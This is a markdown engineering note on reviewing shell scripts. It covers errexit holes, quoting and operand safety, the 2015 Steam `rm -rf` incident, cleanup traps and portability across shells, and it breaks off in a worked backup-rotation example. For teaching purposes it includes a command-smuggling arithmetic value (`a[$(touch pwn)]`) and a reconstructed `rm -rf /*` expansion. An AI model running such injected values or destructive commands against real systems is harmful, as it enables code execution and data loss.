

# Reviewing Shell at Staff Level

> [!summary] Claim
> A staff-level shell review is a fixed sequence of questions about what the shell actually guarantees (interpreter, failure propagation, operand safety, blast radius, resource lifetime, evidence), asked only after the machines have passed the diff, and it ends in a decision about whether the code should be shell at all.

Part of [Testing and Static Analysis](README.md) in [Shell and Unix Engineering](../README.md).

## TL;DR

- Mechanism: shell has no types and no exceptions, so the whole contract is exit statuses and word expansion, and `set -e` suppression is a property of the dynamic call stack (bash-5.3 `execute_function` copies `CMD_IGNORE_RETURN` onto a function body; dash `evalfun` passes `EV_TESTED` down), which is why a diff that looks correct can be wrong at a call site the diff does not show.
- Rule: let `shfmt`, ShellCheck, and the tests spend the machine's time first, then review in a fixed order (should it be shell, interpreter contract, failure propagation, operands, blast radius, resource lifetime, evidence), and spend the human attention on the questions no analyzer can answer.
- Trap: the dangerous line is rarely the one that looks dangerous; in the 2015 Steam for Linux incident the `rm -rf "$STEAMROOT/"*` line was fine and the bug was an unchecked `cd "${0%/*}"` near the top of `steam.sh` that made `STEAMROOT` empty (commenters in issue 3671 quoted it at line 19 and the `rm` at line 468).
- Portability fact: the errexit holes are specified, so every shell I ran agrees on them, but the edges differ: `pipefail` is POSIX.1-2024 yet must be feature-detected, native zsh turns an unmatched glob into an error, native zsh does not print the directory after a `CDPATH` `cd`, and `mktemp` is not in POSIX.1-2024 at all.
- When not to use it: when the script passes roughly 100 lines or needs non-straightforward control flow (Google Shell Style Guide), structured data, retries and partial-failure accounting, real concurrency, or privileged execution on untrusted input, the right review comment is "rewrite this in a typed language", not a longer checklist.

## Mental model



The diff first meets the machine gates, and a red gate returns it to the author before any human reads it, because formatting, quoting, and dialect errors are cheaper for a tool to find.
A green diff reaches the human, who asks question 0 first, since every later question is wasted effort if the code should not be shell; a "no" leaves the loop through the rewrite edge.
Questions 1 to 6 are ordered by how much of the later review they invalidate: a wrong interpreter contract changes the meaning of every line, a wrong failure model changes what the safety nets do, and unsafe operands and unbounded blast radius decide how bad a bug is when it fires.
Question 6 closes the loop by asking for evidence, a test that fails on the bug and a mechanism such as a dry run or a suppression ratchet that keeps the property true after the author leaves, and the verdict either merges the change, sends it back with specific requests, or redirects it to a rewrite.

## How it works

### The division of labor with the machines

A reviewer's scarcest resource is attention, so the first job is to refuse to spend it on what a tool settles.
[[shfmt]] makes layout a non-question, ShellCheck ([[ShellCheck-Internals]], [[ShellCheck-Warning-Families]]) settles local, syntactic hazards, and the test suites ([[bats-core]], [[ShellSpec]], [[shUnit2]]) and the shell matrix ([[Cross-Shell-CI-Matrices]]) settle behavior the author thought to specify.
ShellCheck is strong exactly where the hazard is visible in one file: the Steam line `rm -rf "$STEAMROOT/"*` draws `SC2115` ("Use "${var:?}" to ensure this never expands to /*") and the unquoted `echo $PWD` draws `SC2086` in ShellCheck 0.11.0 (measured here, 2026-11-26, on a reconstruction of the two lines).
What it cannot know is a runtime value or an intent: it cannot know that `${0%/*}` is the whole name when the script is started as `sh name.sh`, that a function is called from an `if` in another file, or that `ls -t` order is not the order the backups were made.
The same limit applies to the other direction: ShellCheck's `SC2155` and `SC2164` wiki pages describe masked exit statuses and an unchecked `cd`, but a green ShellCheck run is evidence that the patterns it knows are absent, not that the script is correct.
Review exists for the second kind of question, and the staff-level discipline is to make that division explicit in the review comment ("the linter is green, so I only looked at semantics").

### Question 0: should this be shell

The Google Shell Style Guide (fetched 2026-11-26) says shell "should only be used for small utilities or simple wrapper scripts", that "if performance matters, use something other than shell", and that a script "more than 100 lines long, or that uses non-straightforward control flow logic" should be rewritten in a more structured language now, because "scripts grow".
The guide also forbids SUID and SGID on shell scripts.
Treat the 100 lines as a prompt for the conversation, not a rule: what matters is which of these properties the code has.

| Property | Why shell is the wrong tool | What to use instead |
|---|---|---|
| Data structures beyond a flat list | POSIX has no arrays and no associative arrays; only the positional parameters, so nested data becomes string parsing | A typed language with a JSON or CSV library |
| Failure handling beyond an exit status | No exceptions; partial failure, retries with state, and rollback become hand-written control flow | A language with exceptions or result types |
| Concurrency beyond `wait` | No futures, no cancellation, signals as the only control plane | A job runner or a language runtime |
| Parsing structured text with `sed` and `awk` | Regex over a grammar fails on the first nested or quoted input | A parser for the format |
| Money, orders, or other state that must not be corrupted | Every error path is opt-in | See [[Safe-rm-and-Destructive-Operations]] and [[Idempotent-Scripts]] for what shell can do, then decide |
| Runs privileged on input an attacker controls | Word splitting and option parsing are the attack surface | A language with a process API that takes an argument vector |

The cost model is the argument: in shell a line is cheap to write and expensive to be sure of, because every line inherits the whole interpreter contract below.
A reviewer who says "rewrite" should name the property that triggered it, so the author can judge it.

### Question 1: the interpreter contract

The first question is which program interprets this file and whether the file's own claim about that is true.
The shebang is the claim, the dialect the code uses is the evidence, and a mismatch is the most common way a script that passes on the author's machine fails in CI.
On the author's machine `sh` resolves to a Nix-provided bash 5.3.15 running in POSIX mode and `/bin/bash` is 3.2.57 (both measured 2026-11-26); in the vault's shell matrix Debian's `sh` is dash 0.5.12, Alpine's `sh` is BusyBox ash 1.37.0, and macOS `/bin/sh` is bash 3.2.57 in POSIX mode (measured in the shell matrix).
A script that says `#!/bin/sh` is therefore being promised to run on at least four different interpreters, and the matrix ([[Cross-Shell-CI-Matrices]]) is the only evidence that the promise holds.
The review questions are mechanical: does the shebang name the dialect the code needs (`#!/bin/sh` only if the code is POSIX; otherwise `#!/usr/bin/env bash` and ShellCheck told so with `# shellcheck shell=bash`), is every non-POSIX feature a deliberate choice, and does the script state the environment it assumes?

The environment is the second half of the contract, and each item below is a real way for the same text to behave differently:

- `IFS`: posh 0.14.1 takes `IFS` from the environment instead of resetting it at startup, which the other shells in the matrix do (measured in the shell matrix), so a script that splits fields should set `IFS` itself.
- `CDPATH`: when the environment carries a `CDPATH`, a relative `cd` can land in a different directory and POSIX requires it to print the new directory to standard output (XCU `cd`, STDOUT); both effects are tested in the lab.
- `PATH`: a script that calls `rm` or `tar` by bare name runs whatever the caller's `PATH` finds first; see [[PATH-Hijacking]].
- Locale: collation decides glob order and `[a-z]` ranges, and the Debian matrix image sets no `LANG` or `LC_*` (measured in the shell matrix), so locale-dependent output differs from a developer laptop.
- Current directory and `HOME`: scripts that assume either are the first to be run from cron or a container, where both differ.

Strict mode (`set -eu`, and `pipefail` where available) is part of the contract and gets a verdict of its own: see [[The-set-Builtin-and-Shell-Options]] for the options and [[Unofficial-Strict-Mode-Critique]] for why a bare `set -euo pipefail` header is a weaker guarantee than it looks, which the next section explains from the implementation.

### Question 2: how failure propagates

#### What the specification says

POSIX.1-2024 XCU 2.15, `set`, option `-e`: when it is on and "any command fails (for any of the reasons listed in 2.8.1 Consequences of Shell Errors or by returning an exit status greater than zero), the shell immediately shall exit", with these exceptions.
The failure of an individual command in a multi-command pipeline, or of a subshell in which command substitution was performed, does not cause exit; only the failure of the pipeline itself counts.
The `-e` setting is ignored "when executing the compound list following the while, until, if, or elif reserved word, a pipeline beginning with the ! reserved word, or any command of an AND-OR list other than the last".
And if the exit status of a compound command other than a subshell command "was the result of a failure while -e was being ignored, then -e shall not apply to this command".
The same section gives the example `set -e; echo $(false; echo one) two`, where the `false` ends the substitution's subshell, so `one` is not printed and the shell goes on to run `echo two`.

Three more rules from the same chapter complete the model.
XCU 2.9.1.3: a simple command with no command name but with a command substitution "shall complete with the exit status of the command substitution whose exit status was the last to be obtained", so `v=$(false)` has status 1 and errexit applies.
XCU 2.15 `export`: the exit status is 0 except when an operand could not be exported or a readonly variable was assigned, so `export v=$(false)` has status 0 whatever the substitution returned, and ShellCheck `SC2155` exists for exactly this masking (the wiki gives `foo="$(mycmd)"` then `export foo` as the fix).
XCU 2.9.2: with `pipefail` off, a pipeline's status is the last command's; with it on, the status is the last non-zero status in the pipeline, and "the shell shall use the pipefail setting at the time it begins execution of the pipeline".

#### What the implementations do

The exceptions are not implemented as a lexical check on the `if` keyword; they are a flag that travels down the execution tree, so a function body inherits whatever its call site had.

In bash-5.3 (`execute_cmd.c`, fetched from the 5.3 tarball) `execute_command_internal` takes the failure decision after each simple command: it jumps to the top level with `ERREXIT` when `ignore_return == 0 && invert == 0` and either a special built-in failed in POSIX mode or `exit_immediately_on_error && pipe_in == NO_PIPE && pipe_out == NO_PIPE && exec_result != EXECUTION_SUCCESS`.
The `pipe_in == NO_PIPE && pipe_out == NO_PIPE` clause is why a failing stage in the middle of a pipeline never exits; the `invert == 0` clause is why `! cmd` never does.
The `ignore_return` value is the `CMD_IGNORE_RETURN` bit on the command, and it is set from outside: `execute_if_command` sets it on the condition (`if_command->test->flags |= CMD_IGNORE_RETURN`), the `AND_AND` and `OR_OR` case of `execute_connection` sets it on the first command, and `execute_function` copies it onto the function body (`if (tc && (flags & CMD_IGNORE_RETURN)) tc->flags |= CMD_IGNORE_RETURN`).
The last line is the mechanism behind the most expensive errexit surprise: a function that is correct when called as a plain command silently loses errexit for every command inside it when some caller writes `if f; then`.
`CMD_IGNORE_RETURN` appears on 53 lines of that file (`grep -c`, 2026-11-26), which is a fair measure of how many places have to agree.

dash does the same with different plumbing (`src/eval.c`, fetched from the dash git tree, `evaltree` and `evalfun`): `evaltree` ends with `if (eflag && (~flags & checkexit) && status) goto exexit;`, where `flags` carries the `EV_TESTED` bit.
`EV_TESTED` is passed down for the `if` test, for `!` (`NNOT`), for the left operand of `&&` and `||` (the expression `(flags | ((isor >> 1) - 1)) & EV_TESTED` is all ones for `NAND` and `NOR` and leaves `flags` alone for `NSEMI`), and `evalfun` calls the function body with `flags & EV_TESTED`.
Two independent implementations therefore agree that suppression is dynamic.
That is also why the lab finds identical output for every errexit mode in bash, dash, zsh, and ksh93u+ (probed by hand on 2026-11-26): the behavior is specified, and the specification is a description of this flag.

#### The holes, with the lab mode that proves each

| Hole | What happens | Lab mode of `errexit-holes.sh` | Review comment |
|---|---|---|---|
| Function called as an `if` or `while` condition | Every command inside runs to completion even when one fails | `if-context` | "Do not use a function that mutates state as a condition; or end each fallible line with `\|\| return`" |
| Left side of `\|\|` or `&&` | Same suppression for the whole left side | `or-list` | "The handler hides failures inside the function on the left" |
| An explicit `\|\| return 1` inside the function | The explicit status works even under suppression | `fixed-if` | The fix to the two rows above |
| Last statement of a function is `test && action` | The list returns 1, errexit ignores the test inside, but fails the caller's simple command | `and-list-return` | "Use `if`; the Google guide gives the same trap for `(( i++ ))`, which is false when `i` is 0" |
| `! cmd` | A pipeline that begins with `!` never aborts | `bang` | "Negation is not an assertion" |
| `v=$(cmd)` | Takes the substitution's status; errexit applies | `assign` | Correct form |
| `export v=$(cmd)` | `export` returns 0; failure vanishes | `export` and `export-fixed` | SC2155: assign, then export |
| A pipeline of two commands | Only the last command counts | `pipeline` | "Needs `pipefail` or an explicit status check" |
| `$(false; echo one)` | bash (default mode) and BusyBox ash do not inherit errexit into the substitution; POSIX says it does | not in the lab | See below |

The command-substitution row is a real divergence and is not in the lab because only some shells could be run by hand: on 2026-11-26 `set -e; echo $(false; echo one) two` printed `one two` in bash 5.3.15 and in `/bin/bash` 3.2.57, and printed `two` in `bash --posix`, `sh` (bash 5.3.15 in POSIX mode), dash, zsh, `zsh --emulate sh`, ksh93u+ 2012-08-01, and bash 5.3 with `shopt -s inherit_errexit`.
A second probe on 2026-11-27 in the shell matrix images found BusyBox ash 1.37.0 (Alpine `sh` and Debian `busybox sh`) on the bash side, printing `one two`, while dash, mksh, yash, posh, zsh, and ksh93u+m printed `two`.
Greg's wiki (BashFAQ/105) records the same: command substitutions unset `set -e` unless `inherit_errexit` is set in bash 4.4 and later, and the behavior in POSIX mode differs.
See [[inherit_errexit-and-errtrace]] and [[errexit-Semantics-and-Exceptions]] for the full treatment; the reviewer's takeaway is that `v=$(f)` where `f` relies on errexit is not protected in default-mode bash.

#### pipefail and what to expect of it

`pipefail` is in POSIX.1-2024 (XCU 2.15 `set`, `-o pipefail`, and XCU 2.9.2), but older shells lack it, and `set` is a special built-in, so an unknown option ends a non-interactive shell (XCU 2.8.1, "Special built-in utility error: shall exit").
Feature-detect in a subshell, as `errexit-holes.sh pipefail` does: `if (set -o pipefail) 2>/dev/null; then`.
Two measured caveats from the author's machine (2026-11-26), not asserted in the lab: the Homebrew dash here (0.5.13.5) accepts `pipefail`, and in the shell matrix images (probed 2026-11-27) Debian's dash 0.5.12-12 accepts it and reports the failing stage while Alpine's dash 0.5.12-r3 rejects it, so "dash lacks pipefail" is a statement about a particular build, not a version number; and ksh93u+ 2012-08-01 sets the pipeline's `$?` to 1 under `pipefail` but does not exit under `set -e` when only a non-last stage failed (`set -e; set -o pipefail; false | cat; echo survived` printed `survived`, while `false | false` exited), which POSIX does not allow.
The practical rule is that `pipefail` plus `set -e` is an aid, never a guarantee; a pipeline whose failure matters gets its status checked on purpose.

#### Masking by declaration and by exit-in-subshell

The generalization of `export v=$(cmd)` is "any command that wraps another and returns its own status": `local v=$(cmd)` (not POSIX; XCU 2.9.1.4 lists `local` among names whose use as a command name is unspecified), `readonly v=$(cmd)`, and `[ "$(cmd)" = x ]`, where the failure of `cmd` is simply not part of the test.
ShellCheck's `SC2155` covers the declaration builtins (its wiki says `local -r` is covered only when the optional `check-extra-masked-returns` is enabled), and that optional check also produces `SC2312` for a command substitution inside a test, which the lab's configuration enables.
The review habit is to ask of every `$(...)`: "if this fails, who finds out?"

### Question 3: operands and expansion

Most shell security bugs and many data-loss bugs are one of three mistakes: an expansion that the author thought produced one word, a word that the callee reads as an option, or text that gets evaluated as code.
The lab's `rotate-bad.sh` packs five of them into a plausible ten-line first draft:

1. `cd $dir`: unquoted, so a space splits the operand and an empty value vanishes (XCU 2.6.5: field splitting applies to unquoted expansion results, and an entirely empty field is removed), leaving a bare `cd` that goes to `HOME` (XCU `cd`: with no operand and a non-empty `HOME`, "behave as if the directory named in the HOME environment variable was specified").
The lab runs it: with `HOME` pointing at a sandbox, `rotate-bad.sh "" 1` rotates that directory and exits 0.
2. `for f in $(ls -t ...)`: the command substitution's output is split at every blank, so `backup-20261101 b.tar` becomes two operands.
ShellCheck `SC2012` and `SC2046` flag both halves.
3. `rm $f`: the operand is not protected by `--`, so a file named `-f` is read as an option (the lab creates one and shows the file survives).
4. `ls -t`: ordering by mtime is ordering by a property the backup process does not own; any copy or restore that does not preserve times rewrites it.
POSIX `ls -t` sorts by modification time "(most recently modified first)" and the lab shows the newest-by-name backup deleted after a restore (BashFAQ/003 discusses the same trade-off for sorting by mtime).
5. `$((keep + 1))`: a variable used in arithmetic is parsed as an expression, so its content is code.
POSIX XCU 2.6.4 says tokens are expanded for command substitution and the value is then evaluated; in bash 5.3.15, `/bin/bash` 3.2.57, and ksh93u+ 2012 a `keep` of `a[$(touch pwn)]` runs the command, while dash and zsh did not (probed by hand 2026-11-26, with `touch` creating a file in a fresh directory; not asserted in the lab because the other families were not run).

The reviewed `rotate.sh` removes the whole class instead of patching lines: it needs no `cd` (the glob is rooted at `"$dir"`), it never splits (the file list is the positional parameters from `set -- "$dir"/backup-*.tar`), it orders by name (backups are named `backup-YYYYMMDDTHHMMSSZ.tar`), it ends options with `--`, and it validates `KEEP` with a `case` before arithmetic, rejecting a leading zero because `08` is an error in bash and dash (measured in the shell matrix; native zsh reads it as decimal in my probe, where `$((3 - 08))` printed `-5`, and so do ksh93, mksh, and yash in the matrix images, while `zsh --emulate sh`, posh, and BusyBox ash reject it, probed 2026-11-27) and capping at nine digits so the subtraction cannot overflow a 32-bit `long`, since POSIX XCU 2.6.4 requires only signed long arithmetic.

Four operand rules a reviewer should apply by reflex, with the exceptions that make each rule safe to state:

- Quote every expansion unless splitting is the point, and then say so in a comment.
The exception to "unquoted is a bug" is a deliberately split list, which should come from a here-document or `set --` rather than a string.
- End options with `--` before an operand that might begin with a hyphen, except for `cd`.
The POSIX `cd` page warns that `cd` treats the operand `-` as a special case "applications should not pass arbitrary values as the operand", and shows `CDPATH= cd -P -- "$dir"` as the thing to avoid in favor of a `case` that passes absolute paths as they are and prefixes relative ones with `./`; `steamroot.sh` in the lab follows it.
A blanket "prefix `./` to be safe" rule would rewrite an absolute path, which is why the `case` has three arms.
- Prefer `find ... -exec cmd {} +` to `find | xargs`, and when a pipe is required use NUL delimiters.
POSIX.1-2024 added `find -print0` and `xargs -0` and `-r` (Austin Group Defect 243, XCU `find` and `xargs` CHANGE HISTORY), so the portable-by-specification form now exists, but the `find` page itself notes that `find -print0 | xargs -r0` is less safe than `-exec` because a truncated final name can be run as if complete.
Without `-0`, `xargs` splits on blanks and honors quotes and backslashes in its input (XCU `xargs`, DESCRIPTION), so it is not a filename transport.
- Never concatenate untrusted text into code: `eval`, `sh -c "...$x..."`, and `ssh host "...$x..."` are all the same bug (see [[The-eval-Builtin]], [[eval-and-sh-c]], [[Argument-Injection-and-Double-Dash]], [[Quoting-Across-Tool-Boundaries]]).

### Question 4: blast radius

For every destructive command, a reviewer asks what it receives when each variable it uses is unset, empty, `/`, a path with spaces, a symlink, or a value starting with `-`, and what is the worst thing it can then do.
The 2015 Steam for Linux incident is the worked case.
A user reported on 2015-01-14 (issue 3671 in `ValveSoftware/steam-for-linux`) that after moving their Steam directory and symlinking it, starting Steam deleted "everything on system owned by user", including a mounted external drive.
Commenters quoted `rm -rf "$STEAMROOT/"*` from `steam.sh` and the earlier `STEAMROOT="$(cd "${0%/*}" && echo $PWD)"`; a Valve developer (`johnv-valve`) then described a reproduction in which the user ran `bash steam.sh` from the script's own directory, so `$0` was `steam.sh`, `${0%/*}` had no slash to strip and stayed `steam.sh`, `cd steam.sh` failed, the command substitution produced an empty `STEAMROOT`, and in the developer's words, "since STEAMROOT is wrong it ends up doing the rm -rf /".
The developer wrote that they had "shipped a one-line fix to avoid the one situation where we could reproduce the problem" and were still looking at broader changes; I take the mechanism from that comment and treat the exact on-disk trigger as the reporter's and the developer's account, not independently verified.

The lab reproduces the mechanism without touching anything: `steamroot-bad.sh` computes `STEAMROOT` the same way under `set -u` and prints the `rm -rf` line instead of running it, with `set -o noglob` so the pattern prints as `/*`.
Started by bare name (`sh steamroot-bad.sh`) it prints `rm -rf /*`, started with a path it prints the right directory, and `set -u` does not help, because `-u` catches unset parameters (XCU 2.15 `set`, option `-u`) and `STEAMROOT` was set to the empty string.
That is why the review comment is about the assignment, not the `rm`: "what happens to `STEAMROOT` when the `cd` fails, and what does the status of that failed `cd` do?"
The fixes, all in `steamroot.sh`, are layered because each catches a different mistake: a failed `cd` ends the script (`|| exit 1`), the expansion is `"${STEAMROOT:?}/"*` so an empty value stops the shell before the command is built (XCU 2.6.2: `${parameter:?}` on a null or unset parameter writes a message and "the shell exits with a non-zero exit status"), and a dry-run mode (see `rotate.sh -n`) makes the destructive command inspectable before it runs.
GNU `rm` refuses `/` by default (`--preserve-root`, man7 `rm(1)`), but `/*` expands to the root's children, which `rm` then removes one by one, so the built-in guard would not have protected the data; a commenter in the thread made the same observation about `"$STEAMROOT/"` versus `"$STEAMROOT/"*`.
Today ShellCheck 0.11.0 flags the reconstructed `rm -rf "$STEAMROOT/"*` with `SC2115`; I did not verify which ShellCheck release first had that check, so the claim is about today's tool only.

### Question 5: resource lifetime

A script that creates anything must say when it is destroyed, on every way out.
`mktemp` is not in POSIX.1-2024 (the XCU utility index has no entry, and the `mktemp.html` page is absent; fetched 2026-11-26), so it is a widely available convention rather than a portable guarantee, and `mktemp -d "$base/work.XXXXXX"` with an explicit template is the form that does not depend on how the implementation reads `TMPDIR`.
The cleanup mechanism is an `EXIT` trap, and POSIX specifies how far it reaches: "A trap action on EXIT shall be executed before the shell terminates" (XCU `exit`), the condition occurs when the shell terminates normally and "may occur when the shell terminates abnormally as a result of delivery of a signal (other than SIGKILL) whose trap action is the default" (XCU `trap`), and setting a trap for `SIGKILL` has undefined results.
The word "may" is the reviewer's cue: a script that relies on the `EXIT` trap to run when it is killed by an untrapped `SIGTERM` is relying on unspecified behavior, so the portable form converts the signal into an exit.

`cleanup-trap.sh` in the lab shows the five outcomes by running to each end and checking whether the scratch directory survives: with no trap it leaks; with an `EXIT` trap it is removed on a normal exit and on a `set -e` failure; with `trap 'exit 143' TERM` and `kill -TERM $$` it is removed and the status is 143; and with `kill -KILL $$` it survives with status 137, because `SIGKILL` cannot be trapped.
So the review question has two parts: is there a trap, and what reclaims the directory when there cannot be one (a start-up sweep of stale directories, a directory under a tmpfs, or a lock with an owner check; see [[Cleanup-Traps-and-Re-Raising-Signals]], [[Traps-and-EXIT]], [[Locking-and-Stale-Locks]], [[Temporary-File-Attacks]], and [[Background-Jobs-and-wait]] for children).

### Question 6: evidence

The last question is what stops the finding from coming back, and it has three answers in decreasing order of strength.
A test that fails on the bug: every row of the lab's `reviews.bats` has a flawed script and a reviewed script, and the flawed one fails the claim ("the old backup is never removed", "the target becomes `/*`"), which is the RED step; the tests have to be written so they can fail, and the bats and shUnit2 notes cover assertion style ([[bats-Helpers-and-Assertions]]), mocks for the destructive commands ([[Mocking-Commands-via-PATH]]), pinned expected output ([[Golden-Output-Tests]]), and how to put a net under code nobody understands before changing it ([[Characterization-Tests-for-Legacy-Scripts]]).
A seam that makes the dangerous operation observable: `rotate.sh -n` prints `would remove PATH` for each file and removes nothing, and a test pins that the printed list is what a real run removes ([[Dry-Run-and-Apply]]).
A ratchet on the suppressions: each `# shellcheck disable=` is a hole in the safety net that the author chose, and the review has to ask whether the reason is true.

`suppression-audit.sh` automates the part that is mechanical.
It reads files, finds directives of the form `# shellcheck disable=SC1234,SC5678 # reason`, counts every code, prints `FILE:LINE: no reason for CODES` for each directive with no text after the second `#`, ends with `suppressions=N unexplained=M`, and with `-m MAX` also fails when `N` exceeds `MAX`, so a CI job can pin the count in the review that sets it and force every later increase to be argued.
ShellCheck accepts the trailing `# reason` on a directive line (the lab's own directives use it and ShellCheck 0.11.0 reported nothing on them).
A directive placed before the first command is file-wide, otherwise it applies to the next command or block (`man shellcheck`, DIRECTIVES), and a `.shellcheckrc` `disable=` line is repository-wide, so a reviewer reads rc-file diffs with more suspicion than inline ones; the audit tool does not read rc files.
The tool is a scanner and not an oracle: it checks that a reason exists, and only a human can check that the reason is true.

## Numbers and limits

| Metric or boundary | Value | Scope and source | Review consequence |
|---|---|---|---|
| Script rewrite line count threshold | 100 lines | Google Shell Style Guide: "more than 100 lines long, or that uses non-straightforward control flow logic" (as of 2026-11) | Reviewers raise the rewrite question once a script passes roughly 100 lines or its control flow stops being straightforward; the guide says to rewrite "now". |
| Signal exit status offset (standard) | 128 + N | POSIX.1-2024 XCU 2.8.2 requires only a status "greater than 128" that identifies the signal; 128 + N is the convention in bash, dash, zsh, mksh, posh, and BusyBox ash (probed in the shell matrix images, 2026-11-27) | A child killed by `SIGTERM` (signal 15) reports status 143 in these shells, which cleanup traps must propagate. |
| Signal exit status offset (ksh93) | 256 + N | ksh93u+ / ksh93u+m (measured in the shell matrix; 271 reprobed on ksh93u+m 1.0.10, 2026-11-27) | Hardcoded assertions comparing against status 143 fail under ksh93 where `SIGTERM` produces status 271. |
| Signal exit status offset (yash) | 384 + N | yash 2.58.1 (measured in the shell matrix; 399 reprobed 2026-11-27) | Traps or tests asserting status 143 fail under yash where `SIGTERM` produces status 399. |
| Minimum integer arithmetic precision | Signed long (at least 32-bit: -2,147,483,648 to 2,147,483,647) | POSIX.1-2024 XCU 2.6.4 (Arithmetic Expansion) | Unsanitized arithmetic on operands exceeding 9 digits risks 32-bit signed overflow; review requires digit bounds (`[ "${#keep}" -le 9 ]`). |
| System argument and environment limit (`ARG_MAX`) | 2,097,152 bytes (Linux, 8 MiB stack) / 1,048,576 bytes (macOS) | `getconf ARG_MAX` on the macOS host and in the Debian matrix image, where Linux derives it as a quarter of the stack limit; musl's `getconf` in the Alpine image reports 131,072 (as of 2026-11) | Reviewers reject passing an unbounded glob to an external command (`rm -- *`) or `xargs` without batching when the list can exceed `ARG_MAX`, preferring `find ... -exec +`; a `for f in *` loop is not limited, because no `exec` happens. |
| Atomic pipe write buffer (`PIPE_BUF`) | 512 bytes (macOS) / 4,096 bytes (Linux, glibc and musl) | POSIX.1-2024 XBD 14 `<limits.h>` (minimum `_POSIX_PIPE_BUF` 512); `getconf PIPE_BUF /` measured in the shell matrix and reprobed on Alpine and Debian, 2026-11-27 | Concurrent uncoordinated writes exceeding `PIPE_BUF` interleave bytes and corrupt output. |
| Leading zero arithmetic trap (`08`, `09`) | Error in bash 5.3, bash 3.2, dash 0.5.12, posh 0.14.1, BusyBox ash 1.37.0, and `zsh --emulate sh`; decimal 8 in native zsh, ksh93, mksh, and yash | Bash manual 6.5; probed on the macOS host and in the shell matrix images, 2026-11-27; lab test 9 shows `rotate.sh` rejecting `08` before any arithmetic | Variable arithmetic with leading zero aborts execution unless sanitized with `0?*` pattern checks. |
| `CMD_IGNORE_RETURN` suppression sites | 53 lines | GNU bash 5.3 `execute_cmd.c` (`grep -c`, measured 2026-11-26, recounted 2026-11-27) | Demonstrates how widely errexit suppression permeates bash command execution paths. |
| ShellCheck directive ratchet threshold | Configurable limit (-m MAX) | `suppression-audit.sh` (lab test 37) | Fails CI when the suppression count exceeds the pinned `MAX`, so the count can only fall as later reviews lower `MAX`. |

## Portability

| Behavior or hazard | POSIX.1-2024 | macOS bash 3.2 | current bash 5.3 | native zsh | zsh --emulate sh | dash 0.5.12 | ksh93 | mksh | yash | posh | BusyBox ash |
|---|---|---|---|---|---|---|---|---|---|---|---|
| `set -o pipefail` | Required (XCU 2.15) | Supported | Supported | Supported | Supported | Supported in Debian's 0.5.12-12; absent (error) in Alpine's 0.5.12-r3 | Supported | Supported | Supported | Absent (error) | Supported |
| Unmatched glob `*` | Literal pattern | Literal pattern | Literal pattern | Fatal error (proved) | Literal pattern (proved) | Literal pattern | Literal pattern | Literal pattern | Literal pattern | Literal pattern | Literal pattern |
| Unquoted `$var` splitting | Splits on IFS | Splits on IFS | Splits on IFS | No splitting | Splits on IFS | Splits on IFS | Splits on IFS | Splits on IFS | Splits on IFS | Splits on IFS | Splits on IFS |
| `CDPATH` stdout on relative `cd` | Prints path | Prints path (proved) | Prints path (proved) | Silent (proved) | Prints path (proved) | Prints path (proved) | Prints path (proved) | Prints path (proved) | Prints path (proved) | Prints path (proved) | Prints path (proved) |
| `set -e` in `$(cmd)` | Inherited | Ignored (lost) | Ignored by default | Inherited | Inherited | Inherited | Inherited | Inherited | Inherited | Inherited | Ignored (lost) |
| Arithmetic `$((08))` leading zero | Unspecified | Error | Error | Decimal 8 | Error | Error | Decimal 8 | Decimal 8 | Decimal 8 | Error | Error |
| `SIGTERM` exit status | >128 | 143 | 143 | 143 | 143 | 143 | 271 (256+15) | 143 | 399 (384+15) | 143 | 143 |
| `export v=$(false)` masking | 0 (masks failure) | 0 (proved) | 0 (proved) | 0 (proved) | 0 (proved) | 0 (proved) | 0 (proved) | 0 (proved) | 0 (proved) | 0 (proved) | 0 (proved) |

Cells marked "(proved)" are asserted per shell family by the lab (tests 11, 17, and 26).
The unquoted-splitting row is measured in the shell matrix, and the `pipefail`, `$(cmd)`, `$((08))`, and `SIGTERM` rows were probed by hand on 2026-11-27 in the shell matrix images (Debian 13 and Alpine 3.22) and on the macOS host; the macOS bash 3.2 cells of the `pipefail`, `$((08))`, and `SIGTERM` rows come from `/bin/bash` 3.2.57.

## Worked example

The companion [lab](../labs/14-reviewing-shell-at-staff-level/) provides executable test suites, flawed first drafts, reviewed production scripts, and an automated suppression audit tool.

A junior engineer submits a first draft of a backup rotation utility, `rotate-bad.sh`:

```sh
#!/bin/sh
# rotate-bad.sh DIR KEEP: delete all but the newest KEEP backups in DIR.
# The review exhibit: a plausible first draft with five findings that rotate.sh fixes.
# shellcheck disable=SC2086,SC2046,SC2012,SC2248 # intentionally flawed: this is the code under review
set -e
dir=$1
keep=$2
cd $dir
for f in $(ls -t backup-* | tail -n +$((keep + 1))); do
  rm $f
done
echo "rotated $dir"
```

A staff-level review identifies five critical defects:
Unquoted `cd $dir` fails on paths with spaces and navigates to `$HOME` when `$dir` is empty.
Parsing `$(ls -t ...)` splits filenames containing whitespace and sorts by mtime, which any file copy or backup restore rewrites.
Unprotected `rm $f` splits whitespace filenames into multiple operands and interprets a filename such as `-f` as a command option.
Arithmetic expansion `$((keep + 1))` evaluates unvalidated input as code and aborts if `keep` contains leading zeros such as `08`.
Lack of dry-run inspection makes destructive deletions unobservable prior to execution.

The reviewed production script, `rotate.sh`, resolves every defect:

```sh
#!/bin/sh
# rotate.sh [-n] DIR KEEP: delete all but the newest KEEP backups in DIR.
# Backups are named backup-YYYYMMDDTHHMMSSZ.tar, so name order is age order, oldest first.
# Rotation never trusts mtime: cp, rsync and restores rewrite it.
# -n prints "would remove PATH" for each file and removes nothing.
# Exit status: 0 done, 1 runtime failure, 2 usage error.
set -eu

usage() {
